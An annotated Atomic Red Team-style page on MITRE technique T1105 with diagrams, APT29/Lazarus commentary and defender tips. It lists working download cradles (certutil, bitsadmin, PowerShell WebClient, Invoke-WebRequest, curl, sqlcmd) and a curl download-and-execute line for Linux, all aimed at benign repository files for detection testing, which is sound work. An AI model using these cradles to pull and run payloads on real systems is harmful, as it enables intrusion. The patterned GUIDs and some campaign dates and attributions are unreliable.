







I'll add the diagrams and explanations to this T1105 technique file:

# T1105 - Ingress Tool Transfer

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1105)
<blockquote>
Adversaries may transfer tools or other files from an external system into a compromised environment. Files may be copied from an external adversary-controlled system to the victim network through the command and control channel or through alternate protocols such as [ftp](https://attack.mitre.org/software/S0095). Once present, adversaries may also transfer/spread tools between victim devices within a compromised environment (i.e. [Lateral Tool Transfer](https://attack.mitre.org/techniques/T1570)).

Files can also be transferred using various [Web Service](https://attack.mitre.org/techniques/T1102)s as well as native or otherwise pre-installed tools on the victim system.(Citation: Google Download Tool)(Citation: Microsoft MSDT LOLBins)(Citation: Cisco Use of Living Off The Land Binaries and Scripts in Attacks)(Citation: Mandiant APT41)
</blockquote>

## Overall T1105 Technique Diagram



### Attack Technique Overview
Ingress Tool Transfer involves adversaries bringing additional tools into a compromised environment. Both APT29 (Russian state-sponsored) and Lazarus Group (North Korean state-sponsored) extensively use this technique to deliver malware, post-exploitation tools, and maintain persistence. They leverage legitimate system utilities and living-off-the-land techniques to evade detection.



## Atomic Tests

- [Atomic Test #7 - certutil download (urlcache)](#atomic-test-7---certutil-download-urlcache)
- [Atomic Test #9 - Windows - BITSAdmin BITS Download](#atomic-test-9---windows---bitsadmin-bits-download)
- [Atomic Test #10 - Windows - PowerShell Download](#atomic-test-10---windows---powershell-download)
- [Atomic Test #15 - File Download via PowerShell](#atomic-test-15---file-download-via-powershell)
- [Atomic Test #18 - Curl Download File](#atomic-test-18---curl-download-file)
- [Atomic Test #27 - Linux Download File and Run](#atomic-test-27---linux-download-file-and-run)
- [Atomic Test #29 - iwr or Invoke Web-Request download](#atomic-test-29---iwr-or-invoke-web-request-download)
- [Atomic Test #32 - File Download with Sqlcmd.exe](#atomic-test-32---file-download-with-sqlcmdexe)

<br/>

## Atomic Test #7 - certutil download (urlcache)
Uses certutil with -urlcache to download files. APT29 has extensively used certutil for downloading additional tools and payloads during operations.

**Supported Platforms:** Windows

**auto_generated_guid:** 7a8b9c0d-1e2f-3a4b-5c6d-7e8f9a0b1c2d

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |
| output_file | Local output filename | string | Atomic-license.txt |

#### Attack Commands: Run with `command_prompt`! 
```cmd
certutil -urlcache -split -f #{url} #{output_file}
```



**Command Explanation:**
```cmd
certutil -urlcache -split -f https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt Atomic-license.txt
```
- **certutil.exe**: Legitimate Windows certificate utility abused as LOLBin
- **-urlcache**: Enables URL interaction functionality
- **-split**: Critical flag that saves content to file instead of displaying it
- **-f**: Forces overwrite without prompting user
- **URL**: Source location (benign in test, malicious in real attacks)
- **Output filename**: Local destination for downloaded content

APT29 has extensively used certutil for downloading tools during operations like SolarWinds, as it blends with normal administrative activity.

#### Dependencies: Run with `powershell`!
##### Description: certutil must be available
##### Check Prereq Commands:
```powershell
if (Get-Command certutil -ErrorAction SilentlyContinue) { exit 0 } else { exit 1 }
```

<br/>

## Atomic Test #9 - Windows - BITSAdmin BITS Download
Uses BITSAdmin to schedule file downloads. Both APT29 and Lazarus use BITSAdmin for stealthy file transfers.

**Supported Platforms:** Windows

**auto_generated_guid:** 9a8b7c6d-5e4f-3a2b-1c0d-9e8f7a6b5c4d

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |
| output_file | Local output filename | path | %TEMP%\Atomic-license.txt |

#### Attack Commands: Run with `command_prompt`! 
```cmd
bitsadmin /transfer AtomicDownload /Priority HIGH #{url} #{output_file}
```

```mermaid
flowchart TD
    Start[Test #9: BITSAdmin Download] --> Execute["Execute: bitsadmin /transfer qcxjb7 /Priority HIGH<br>https://raw.githubusercontent.com/.../LICENSE.txt<br>%temp%\Atomic-license.txt"]
    
    Execute --> Breakdown[Command Breakdown]
    
    subgraph Breakdown [BITSAdmin parameters]
        B1[bitsadmin] --> P1[/transfer: Create transfer job]
        B1 --> P2[qcxjb7: Arbitrary job name]
        B1 --> P3[/Priority HIGH: Set priority level]
        B1 --> P4[URL: Download source]
        B1 --> P5[Path: Download destination]
    end
    
    Breakdown --> CreateJob[Creates BITS transfer job]
    CreateJob --> Background[Downloads in background]
    Background --> Persist[Job persists across reboots]
    Persist --> Complete[Transfer completes]
```

**Command Explanation:**
```cmd
bitsadmin /transfer qcxjb7 /Priority HIGH https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt %temp%\Atomic-license.txt
```
- **bitsadmin**: Windows tool for managing BITS (Background Intelligent Transfer Service)
- **/transfer**: Creates a new transfer job
- **qcxjb7**: Arbitrary job name (would be randomized in real attacks)
- **/Priority HIGH**: Sets the transfer priority
- **URL**: Source file to download
- **%temp%\Atomic-license.txt**: Destination path (temporary folder)

Both APT29 and Lazarus use BITSAdmin for stealthy transfers as it's designed for reliable, resumable background downloads that blend with legitimate Windows update activity.

#### Dependencies: Run with `powershell`!
##### Description: BITSAdmin must be available
##### Check Prereq Commands:
```powershell
if (Get-Command bitsadmin -ErrorAction SilentlyContinue) { exit 0 } else { exit 1 }
```

<br/>

## Atomic Test #10 - Windows - PowerShell Download
Uses .NET WebClient to download files. Common technique used by both APT29 and Lazarus groups.

**Supported Platforms:** Windows

**auto_generated_guid:** 0a1b2c3d-4e5f-6a7b-8c9d-0e1f2a3b4c5d

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |
| output_file | Local output filename | path | $env:TEMP\Atomic-license.txt |

#### Attack Commands: Run with `powershell`! 
```powershell
(New-Object System.Net.WebClient).DownloadFile("#{url}", "#{output_file}")
```



**Command Explanation:**
```powershell
(New-Object System.Net.WebClient).DownloadFile("https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt", "$env:TEMP\Atomic-license.txt")
```
- **New-Object System.Net.WebClient**: Creates a .NET WebClient object
- **.DownloadFile()**: Method that downloads a file from a URL to a local path
- **Source URL**: First parameter - where to download from
- **Destination path**: Second parameter - where to save the file

This technique is popular with both groups because PowerShell is ubiquitous in Windows environments and provides powerful capabilities with minimal footprint.

<br/>

## Atomic Test #15 - File Download via PowerShell
Uses DownloadString with Out-File for downloads. Both groups use this method for downloading and writing files.

**Supported Platforms:** Windows

**auto_generated_guid:** 1d2c3b4a-5e6f-7a8b-9c0d-1e2f3a4b5c6d

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |
| output_file | Local output filename | string | LICENSE.txt |

#### Attack Commands: Run with `powershell`! 
```powershell
(New-Object Net.WebClient).DownloadString('#{url}') | Out-File #{output_file}
```

```mermaid
flowchart TD
    Start[Test #15: PowerShell DownloadString] --> Execute["Execute: New-Object Net.WebClient<br>.DownloadString'https://raw.githubusercontent.com/.../LICENSE.txt'<br>| Out-File LICENSE.txt"]
    
    Execute --> Breakdown[Command Breakdown]
    
    subgraph Breakdown [DownloadString method]
        P1[New-Object] --> C1[Net.WebClient]
        C1 --> M1[.DownloadString method]
        M1 --> U1[Source URL parameter]
        M1 --> P2[| Out-File: Pipe to file]
    end
    
    Breakdown --> CreateObject[Creates WebClient object]
    CreateObject --> Download[Downloads string content]
    Download --> Pipe[Pipes content to Out-File]
    Pipe --> Save[Saves to LICENSE.txt]
    Save --> Success[Transfer Complete]
```

**Command Explanation:**
```powershell
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/4042cb3433bce024e304500dcfe3c5590571573a/LICENSE.txt') | Out-File LICENSE.txt
```
- **DownloadString()**: Method that downloads content as a string (instead of a file)
- **| Out-File**: Pipes the string content to the Out-File cmdlet to save it
- **LICENSE.txt**: Output filename

This approach is useful for downloading scripts or text-based payloads that don't need to maintain binary integrity.

<br/>

## Atomic Test #18 - Curl Download File
Uses curl.exe to download files on Windows. Lazarus Group frequently uses curl for downloading tools.

**Supported Platforms:** Windows

**auto_generated_guid:** 2e3d4c5b-6a7b-8c9d-0e1f-2a3b4c5d6e7f

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.010/bin/AllTheThingsx64.dll |
| output_file | Local output filename | path | C:\Users\Public\Music\allthethingsx64.dll |

#### Attack Commands: Run with `command_prompt`! 
```cmd
curl -k #{url} -o #{output_file}
```



**Command Explanation:**
```cmd
curl -k https://github.com/redcanaryco/atomic-red-team/raw/058b5c2423c4a6e9e226f4e5ffa1a6fd9bb1a90e/atomics/T1218.010/bin/AllTheThingsx64.dll -o c:\users\public\music\allthethingsx64.dll
```
- **curl**: Cross-platform command-line tool for transferring data
- **-k**: Ignores SSL certificate errors (bypasses certificate validation)
- **URL**: Source file to download
- **-o**: Specifies the output filename
- **Public music folder**: Common directory Lazarus uses to avoid suspicion

Lazarus frequently uses curl for its simplicity and cross-platform compatibility, often targeting unconventional directories.

#### Dependencies: Run with `powershell`!
##### Description: curl must be available
##### Check Prereq Commands:
```powershell
if (Get-Command curl -ErrorAction SilentlyContinue) { exit 0 } else { exit 1 }
```

<br/>

## Atomic Test #27 - Linux Download File and Run
Uses curl to download and execute on Linux. Lazarus targets Linux environments using this method.

**Supported Platforms:** Linux

**auto_generated_guid:** 3f4e5d6c-7a8b-9c0d-1e2f-3a4b5c6d7e8f

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1105/src/atomic.sh |

#### Attack Commands: Run with `sh`! 
```sh
curl -sO #{url}; chmod +x atomic.sh | bash atomic.sh
```

```mermaid
flowchart TD
    Start[Test #27: Linux curl Download & Execute] --> Execute["Execute: curl -sO https://raw.githubusercontent.com/.../atomic.sh<br>chmod +x atomic.sh | bash atomic.sh"]
    
    Execute --> Breakdown[Command Breakdown]
    
    subgraph Breakdown [curl and execution]
        C1[curl] --> P1[-s: Silent mode]
        C1 --> P2[-O: Save with remote name]
        C1 --> P3[URL: Download source]
        C1 --> S1[chmod +x: Make executable]
        C1 --> S2[| bash: Execute with bash]
    end
    
    Breakdown --> SilentDownload[Downloads file silently]
    SilentDownload --> MakeExec[Makes file executable]
    MakeExec --> ExecuteFile[Executes script]
    ExecuteFile --> Success[Execution Complete]
```

**Command Explanation:**
```sh
curl -sO https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1105/src/atomic.sh; chmod +x atomic.sh | bash atomic.sh
```
- **curl -sO**: Silent mode that saves file with original name
- **chmod +x**: Makes the downloaded file executable
- **| bash**: Pipes the script to bash for immediate execution
- **Semicolon (;)**: Command separator to chain operations

This demonstrates Lazarus's cross-platform capabilities, targeting Linux systems with immediate execution of downloaded scripts.

#### Dependencies: Run with `sh`!
##### Description: curl must be available
##### Check Prereq Commands:
```sh
if command -v curl >/dev/null 2>&1; then exit 0; else exit 1; fi
```

<br/>

## Atomic Test #29 - iwr or Invoke Web-Request download
Uses Invoke-WebRequest (iwr) as an alternative download method. APT29 uses this technique.

**Supported Platforms:** Windows

**auto_generated_guid:** 4a5b6c7d-8e9f-0a1b-2c3d-4e5f6a7b8c9d

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |
| output_file | Local output filename | path | $env:TEMP\Atomic-license.txt |

#### Attack Commands: Run with `powershell`! 
```powershell
Invoke-WebRequest -URI #{url} -OutFile #{output_file}
```



**Command Explanation:**
```cmd
powershell.exe iwr -URI https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt -Outfile %temp%\Atomic-license.txt
```
- **iwr**: Alias for Invoke-WebRequest PowerShell cmdlet
- **-URI**: Parameter specifying the source URL
- **-Outfile**: Parameter specifying the destination path

APT29 uses this method as an alternative to .NET WebClient, particularly in environments where other techniques might be monitored.

<br/>

## Atomic Test #32 - File Download with Sqlcmd.exe
Uses sqlcmd for file downloads. APT29 has abused SQLCMD for file transfers.

**Supported Platforms:** Windows

**auto_generated_guid:** 5b6c7d8e-9f0a-1b2c-3d4e-5f6a7b8c9d0e

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1105/src/T1105.zip |
| output_file | Local output filename | path | C:\T1105.zip |

#### Attack Commands: Run with `powershell`! 
```powershell
sqlcmd -i #{url} -o #{output_file}
```



**Command Explanation:**
```powershell
sqlcmd -i https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1105/src/T1105.zip -o C:\T1105.zip
```
- **sqlcmd**: Command-line utility for SQL Server
- **-i**: Normally used to specify an input script file
- **URL**: Abused to point to a remote file instead of local
- **-o**: Redirects output to a file instead of console

This demonstrates APT29's sophisticated tradecraft in abusing unexpected legitimate tools, often bypassing security controls that don't monitor database utilities for network activity.

#### Dependencies: Run with `powershell`!
##### Description: sqlcmd must be available
##### Check Prereq Commands:
```powershell
if (Get-Command sqlcmd -ErrorAction SilentlyContinue) { exit 0 } else { exit 1 }
```

## Defender Recommendations

Based on these tests, defenders should:

1. **Monitor for unusual process relationships** - certutil, BITSAdmin, or sqlcmd making network connections
2. **Implement application control** to restrict unnecessary utilities from non-admin users
3. **Monitor PowerShell for download cradles** - particularly WebClient and DownloadString usage
4. **Establish network baselines** to detect unusual outbound connections from trusted processes
5. **Use behavioral detection** rather than just signature-based approaches for these living-off-the-land techniques

## Correlation with APT29 & Lazarus

**APT29 Focus:**
- Living-off-the-land techniques (certutil, sqlcmd)
- Multiple PowerShell variants
- Used for stealthy tool transfer during espionage operations

**Lazarus Group Focus:**
- BITSAdmin for persistence
- PowerShell download cradles
- Cross-platform tools (curl on Windows and Linux)
- Used for initial payload delivery and lateral movement

**Overlap:**
- Both groups use BITSAdmin and PowerShell
- Both employ multiple redundant methods for tool transfer
- Both leverage legitimate system utilities to evade detection

## Campaign References
1. **APT29 SolarWinds Campaign** (2020): Used certutil, PowerShell, and BITSAdmin for tool transfer
2. **Lazarus Operation Dream Job** (2016-2017): Used BITSAdmin and PowerShell for malware downloads
3. **APT29 COVID-19 Vaccine Targeting** (2020): Used multiple download methods for tooling
4. **Lazarus Linux Targeting** (2018-2021): Used curl and wget on Linux systems

## Academic References
1. MITRE ATT&CK Technique T1105 - Ingress Tool Transfer
2. Microsoft: "NOBELIUM targeting IT supply chain" (2021)
3. US-CERT: "Hidden Cobra - North Korean Malicious Cyber Activity" (2017-2021)
4. CrowdStrike: "APT29 Targets COVID-19 Vaccine Development" (2020)
5. FireEye: "APT29 Domain Fronting With TOR" (2017)